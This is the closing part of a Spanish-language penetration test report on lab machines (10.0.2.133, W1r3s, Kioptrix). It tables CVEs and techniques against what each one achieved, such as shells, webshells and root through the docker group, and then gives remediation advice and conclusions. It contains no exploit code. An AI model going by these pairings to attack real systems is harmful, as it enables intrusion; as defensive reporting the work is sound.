| #  | IP / Sistema   | Servicio / Aplicación        | CVE / Técnica                           | Resultado de la Explotación                                  | Nivel Riesgo |
|----|----------------|------------------------------|-----------------------------------------|--------------------------------------------------------------|--------------|
| 1  | 10.0.2.133     | ProFTPD 1.3.5                | CVE-2015-3306                            | Shell remoto como `www-data` mediante `mod_copy`             | 🟥 Crítico   |
| 2  | 10.0.2.133     | Apache CGI                   | CVE-2014-6271 (Shellshock)              | Ejecución de comandos como `www-data`                        | 🟥 Crítico   |
| 3  | 10.0.2.133     | CUPS                         | CVE-2014-6271 (Shellshock)              | Acceso remoto limitado como usuario `lp`                     | 🟧 Alto      |
| 4  | 10.0.2.133     | Drupal 7.x                   | CVE-2014-3704 (Drupageddon)             | Shell como `www-data`, extracción de la base de datos        | 🟥 Crítico   |
| 5  | 10.0.2.133     | Apache WebDAV                | Técnica de carga de archivo             | Webshell ejecutada remotamente como `www-data`              | 🟧 Alto      |
| 6  | 10.0.2.133     | Ruby on Rails (8181/3500)    | CVE-2019-5418 / CVE-2019-5420           | Acceso root en el puerto 8181, ejecución en 3500             | 🟥 Crítico   |
| 7  | 10.0.2.133     | phpMyAdmin                   | CVE-2009-1151                            | Control de base de datos y shell como `www-data`             | 🟧 Alto      |
| 8  | 10.0.2.133     | UnrealIRCd 3.2.8.1           | CVE-2010-2075                            | Backdoor con shell como `boba_fett` (grupo docker)           | 🟥 Crítico   |
| 9  | 10.0.2.133     | Docker Daemon                | Técnica local (grupo docker)            | Escalada local a `root` desde contenedor                     | 🟥 Crítico   |
|10  | 10.0.2.133     | Apache Continuum             | CVE-2016-3088                            | Ejecución de comandos remota como `root`                     | 🟥 Crítico   |
|11  | 10.0.2.133     | Samba                        | Técnica: recurso compartido             | Webshell cargada, ejecución como `www-data`                  | 🟧 Alto      |

---

### **Maquina W1r3s**

| #  | IP / Sistema   | Servicio / Aplicación        | CVE / Técnica                              | Resultado de la Explotación                                   | Nivel Riesgo |
|----|----------------|------------------------------|--------------------------------------------|---------------------------------------------------------------|--------------|
| 1  | 10.0.2.135     | OpenSSH                      | CVE-2023-48795 (Terrapin)                  | Vulnerabilidad detectada pero no explotada directamente       | 🟨 Medio     |
---
### **Maquina Kioptrix**

| #  | IP / Sistema     | Servicio / Aplicación        | CVE / Técnica                                 | Resultado de la Explotación                                 | Nivel Riesgo |
|----|------------------|------------------------------|-----------------------------------------------|-------------------------------------------------------------|--------------|
| 1  | 10.0.2.11    | Apache HTTP Server           | CVE-2022-28330                                | Lectura fuera de límites – riesgo de divulgación de datos   | 🟥 Crítico   |
| 2  | 10.0.2.11    | Apache HTTP Server           | CVE-2023-31122                                | Lectura fuera de límites (OOB Read)                         | 🟧 Alto      |
| 3  | 10.0.2.11    | Apache HTTP Server           | CVE-2016-0736 (mod_lua)                       | Posible ejecución remota de código                          | 🟥 Crítico   |
| 4  | 10.0.2.11    | Apache HTTP Server <=1.3.x   | SEoL (End of Life)                            | Software fuera de soporte, múltiples fallos acumulados      | 🟥 Crítico   |
| 5  | 10.0.2.11    | OpenSSH < 3.7.1              | CVE-2003-0190 / CVE-2003-0682                 | Desbordamiento remoto – posible escalada de privilegios     | 🟥 Crítico   |
| 6  | 10.0.2.11    | OpenSSH < 3.1                | CVE-2002-0083                                 | Fallo en canal – posibilidad de ejecución remota            | 🟥 Crítico   |
| 7  | 10.0.2.11    | OpenSSL < 0.9.6e             | CVE-2002-0656 / CVE-2002-0655                 | Desbordamientos de búfer múltiples – ejecución remota       | 🟥 Crítico   |
| 8  | 10.0.2.11    | SSL/TLS                      | SWEET32 (CVE-2016-2183)                       | Cifrado débil – posibilidad de descifrado por ataque MITM   | 🟧 Alto      |
| 9  | 10.0.2.11    | OpenSSH < 7.4                | CVE-2016-10009 / CVE-2016-10010               | Diversas vulnerabilidades explotables                       | 🟧 Alto      |
|10  | 10.0.2.11    | Apache mod_rewrite           | CVE-2006-5752                                 | Desbordamiento con URLs LDAP – DoS o RCE potencial          | 🟧 Alto      |

# 9. Recomendaciones Generales de Seguridad

Con base en las vulnerabilidades explotadas durante las pruebas, se proponen las siguientes acciones estratégicas para reducir el riesgo de compromisos futuros:

## 9.1 Gestión de vulnerabilidades y actualizaciones

Establecer un proceso riguroso de gestión de parches y versiones. Todas las aplicaciones analizadas presentaban fallos conocidos y documentados, muchos con exploits públicos disponibles. Es imprescindible mantener actualizados servicios como OpenSSH, Apache, ProFTPD, Samba y Drupal, así como aplicar parches de seguridad del kernel. Se recomienda incorporar escaneos de vulnerabilidades frecuentes y automatizar la detección de versiones obsoletas.

## 9.2 Gestión de credenciales

Eliminar el uso de contraseñas por defecto o débiles. Implementar autenticación por clave pública para servicios como SSH y deshabilitar el acceso mediante contraseña. Todas las cuentas deben estar sujetas a políticas estrictas de complejidad y expiración. También se deben revisar los privilegios de los usuarios en el sistema y limitar el uso de `sudo` a los casos estrictamente necesarios.

## 9.3 Control de accesos en red

Restringir el acceso a servicios críticos mediante segmentación de red y reglas de firewall. SSH, FTP, bases de datos o paneles administrativos no deben estar expuestos públicamente sin justificación. Las conexiones deben limitarse a direcciones IP autorizadas. Cualquier servicio innecesario debe ser deshabilitado para reducir la superficie de ataque.

## 9.4 Fortalecimiento de la configuración

Revisar todas las configuraciones de servicios desplegados. En el caso de SSH, es necesario deshabilitar algoritmos criptográficos vulnerables como ChaCha20-Poly1305 sin autenticación adecuada. Los servicios web deben operar con permisos mínimos, evitar accesos innecesarios al sistema de archivos y deshabilitar funciones inseguras o poco utilizadas. La configuración de `sudoers` debe auditarse y ajustarse según el principio de mínimo privilegio.

## 9.5 Monitorización y auditoría

Implementar herramientas de monitorización continua capaces de registrar accesos, comandos ejecutados con privilegios y tráfico inusual. Los sistemas deben generar alertas ante comportamientos anómalos como intentos de fuerza bruta, shells reversas o conexiones no autorizadas. Los registros deben conservarse íntegros y accesibles para su análisis posterior.

## 9.6 Formación del personal

Capacitar al personal técnico en buenas prácticas de seguridad, administración y respuesta ante incidentes. Es fundamental que los administradores comprendan la importancia de controlar los privilegios, gestionar adecuadamente los accesos remotos y aplicar parches con celeridad. Los desarrolladores deben estar familiarizados con prácticas seguras, como la validación de entradas y el uso de consultas preparadas para prevenir inyecciones.

## 9.7 Evaluaciones de seguridad periódicas

Establecer un programa continuo de pruebas de seguridad en entornos reales y preproducción. Las pruebas de penetración deben realizarse tras cambios relevantes en la infraestructura, despliegue de nuevas aplicaciones o identificación de nuevas amenazas. Estas evaluaciones deben incluir tanto escaneos automáticos como pruebas manuales orientadas a la explotación de fallos lógicos o configuraciones defectuosas.

---

# 10. Conclusiones

La evaluación de seguridad confirmó que existen vulnerabilidades explotables en varios servicios críticos, tales como servidores web, FTP, SSH y bases de datos, lo que pone en evidencia una alta exposición a riesgos. Se constató que el uso de software desactualizado, configuraciones inseguras y credenciales por defecto amplían significativamente la superficie de ataque, facilitando la explotación y el compromiso de la integridad, confidencialidad y disponibilidad de los sistemas.

Asimismo el análisis técnico detallado permitió identificar vectores de ataque críticos y elaborar recomendaciones específicas, entre las que se destacan la actualización de las aplicaciones y servicios vulnerables, la implementación de configuraciones de seguridad robustas, la gestión rigurosa de las credenciales y la segmentación adecuada de la red. Se recomienda encarecidamente adoptar estas medidas para mitigar los riesgos detectados, mejorar la postura de seguridad de la infraestructura y protegerla contra futuras amenazas.

---
